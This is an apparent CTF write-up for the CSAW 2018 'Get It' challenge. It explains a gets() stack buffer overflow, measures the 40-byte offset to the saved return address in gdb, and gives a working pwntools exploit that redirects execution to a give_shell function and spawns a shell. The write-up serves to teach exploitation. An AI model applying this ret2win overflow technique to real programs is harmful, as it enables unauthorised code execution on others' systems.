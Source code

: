 # Csaw Quals 2018 Get It

Let's take a look at the binary:

```
$    file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
$    pwn checksec get_it
[*] '/Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./get_it
Do you gets it??
15935728
```

So we can see that we are given a `64` bit binary, with a Non-Executable stack (that mitigation will be covered later). When we run it, we see that it prompts us for input. When we take a look at the main function in Ghidra, we see this:

```
undefined8 main(void)

{
  char input [32];
 
  puts("Do you gets it??");
  gets(input);
  return 0;
}
```

So we can see that it makes a call to the `gets` function with the char buffer `input` as an argument. This is a bug. The thing about the `gets` function, is that there is no size restriction on the amount of data it will scan in. It will just scan in data until it gets either a newline character or EOF (or something causes it to crash). Because if this we can write more data to `input` than it can hold (which it can hold `32` bytes worth of data) and we will overflow it. The data that we overflow will start overwriting subsequent things in memory. Looking at this function we don't see any other variables that we can overwrite. However we can definitely overwrite the saved return address.

When a function is called, two values that are saved are the base pointer (points to the base of the stack) and instruction pointer (pointing to the instruction following the call). This way when the function is done executing and returns, code execution can pick up where it left off and the code knows where the stack is. These values make up the saved base pointer and saved return address, and in x64 the saved base pointer is stored at `rbp+0x0` and the saved instruction pointer is stored at `rbp+0x8`.

So when the `ret` instruction, the saved instruction pointer (stored at `rbp+0x8`) is executed. This address is on the stack, and we can reach it with the `gets` function call. So we will just overwrite it with a value we want, and we will decide what code the program executes. The offset between the start of our input and the return address is `40` bytes. The first `32` bytes come from the `input` char buffer we have to fill up. After that we can see there are no variables between `input` and the saved base pointer (if there was a stack canary that would be a different story, but I'll save that for later). After that we have `8` bytes for the saved base pointer, then we reach the saved instruction pointer. We can also see this in memory with gdb:

```
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:    push   rbp
   0x00000000004005c8 <+1>:    mov    rbp,rsp
   0x00000000004005cb <+4>:    sub    rsp,0x30
   0x00000000004005cf <+8>:    mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave  
   0x00000000004005f7 <+48>:    ret    
End of assembler dump.
gef➤  b *0x4005f1
Breakpoint 1 at 0x4005f1
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it
Do you gets it??
15935728
```

We set a breakpoint for right after the `gets` call:

```
Breakpoint 1, 0x00000000004005f1 in main ()
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
gef➤  x/g $rbp+0x8
0x7fffffffde98:    0x00007ffff7a05b97
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602670 - 0x602678  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde70 - 0x7fffffffde78  →   "15935728"
```

So we can see that the return address i stored at `0x7fffffffde98`. Our input begins at `0x7fffffffde70`. This gives us a `0x7fffffffde98 - 0x7fffffffde70 = 0x28` byte offset (`0x28 = 40`). So we just have to write `40` bytes worth of input and we can write over the return address. That address will be executed when the `ret` instruction is executed, giving us code execution. The question is now what do we want to execute? Looking through the list of functions in Ghidra, we see that there is a `give_shell` function:

```
void give_shell(void)

{
  system("/bin/bash");
  return;
}
```

This function looks like it just gives us a shell by calling `system("/bin/bash")`. In the assembly viewer we can see that it starts at `0x4005b6`. So we can just call the `give_shell` function by writing over the return address with `0x4005b6` and that should give us a shell. Putting it all together, we get the following exploit:

```
from pwn import *

target = process("./get_it")
#gdb.attach(target, gdbscript = 'b *0x4005f1')

payload = ""
payload += "0"*40 # Padding to the return address
payload += p64(0x4005b6) # Address of give_shell in least endian, will be new saved return address

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use the new shell
target.interactive()
```

When we run it:
```
$    python exploit.py
[+] Starting local process './get_it': pid 2969
[*] running in new terminal: /usr/bin/gdb -q  "./get_it" 2969 -x "/tmp/pwndObRhj.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Do you gets it??
$ w
 23:38:26 up 1 min,  1 user,  load average: 1.77, 0.67, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               23:37    1:20   2.71s  0.14s /sbin/upstart --user
$ ls
exploit.py  get_it
```

Just like that we got a shell!
